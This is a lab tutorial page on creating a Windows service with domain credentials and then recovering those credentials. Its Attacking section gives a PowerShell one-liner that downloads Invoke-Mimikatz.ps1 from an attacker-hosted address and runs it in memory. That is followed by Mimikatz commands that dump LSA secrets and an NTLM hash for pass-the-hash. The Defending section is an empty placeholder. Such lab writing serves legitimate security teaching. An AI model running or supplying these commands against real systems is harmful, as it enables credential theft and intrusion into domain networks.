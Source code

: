 ```yaml
---
description: >-
  It's possible to create custom services, which will run with a local or a
  domain account. When you have high enough privilege's, it's possible to
  retrieve the credentials of the service.
---
```


# Services

## Configuring

For this example we have created the user _noah_ onto the Domain Controller. The following command should be executed:

```
net user Noah haoNHasAStrongPassword321!@ /domain /add
```

1. Login with an `Administrator` account into the machine, where you want to configure the service. In our example we will configure this within `WS01`.
2. Open up _cmd.exe_
3. We're going to execute the command:

```
sc create <name> binPath="C:\nonexisting.exe" obj="<username>@<domain>" password="<plaintext password or NTLM hash of the user>"
```

The password of the service can be fake. So to make our attack a bit more fun, we're going to place the NTLM hash of the user `Noah`. This will enable us to make it a 'pass-the-hash' attack.

In our example we're going to execute the following command:

```
 sc create TryToReadThePassword binPath="C:\Program Files\OfThisService.exe" obj="Noah@Amsterdam" password="02671733e400aa35ad23828f5df3b676"
```

When executed, we will get a success message.

## Attacking

### How it works



### Tools

* [MimiKatz ](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)

### Executing the attack

For this attack we need a high priviliged user.

1. Start PowerShell as an Administrator.
2. Execute MimiKatz. This can be done in many ways. In our example we will be hosting Invoke-mimikatz.ps1 on our attacker machine. Download mimikatz into memory using the following command and then execute MimiKatz:

```
IEX (New-Object System.Net.Webclient).DownloadString('http://<ip>/Invoke-Mimikatz.ps1')
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "lsadump::secrets" "exit"'
```

The result is that our freshly created service is shown, including with username and NTLM Hash:

![](<../../../.gitbook/assets/image (3).png>)

With the hash we can try to execute pass-the-hash attacks.

## Defending

### Recommendations

* a

### Detection



## References
